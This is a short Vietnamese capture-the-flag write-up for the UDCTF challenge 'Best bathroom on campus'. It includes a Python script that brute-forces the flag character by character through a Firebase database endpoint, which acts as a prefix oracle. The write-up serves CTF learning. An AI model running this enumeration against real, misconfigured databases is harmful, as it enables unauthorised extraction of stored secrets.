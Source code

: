 # Best bathroom on campus

<img src="/assets/writeup/cookie/Best bathroom on campus e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled.png">
- Truy cập vào trang web ta thấy như sau, ta thấy khi giá trị UDCTF được truyền vào thì trả về giá trị là true.

<img src="/assets/writeup/cookie/Best bathroom on campus e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled 1.png">

- Mình thử test format flag là UDCTF{ thì vẫn trả về true, có vẻ như bài này ta chỉ cần nhập vào chuỗi nằm trong flag thì sẽ trả về true, không thì sẽ là false, lúc này thì mình sẽ code python để tự động hóa

<img src="/assets/writeup/cookie/Best bathroom on campus e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled 2.png">

```python
import requests

url = 'https://best-bathroom-default-rtdb.firebaseio.com/flag/'

arr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'!$%()*+,-.:;@[]^_`{|}~"
# arr = "$%&'()*+,-./:;<=>?@[]^_`{|}~"
result = 'UDCTF{'

while True:
  for char in arr:
    print(f"Testing with {result + char}")
    
    test_url = url + result + char + '.json' 
    response = requests.get(test_url)
    
    if response.text.find('true') != -1:
      result += char
      print(f"Found character: {char}")
      print(f"Result: {result}")
      break

    if char == '}':
      print("Final flag:", result)
      exit()

  print("Start over with full arr")
```

<img src="/assets/writeup/cookie/Best bathroom on campus e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled 3.png">
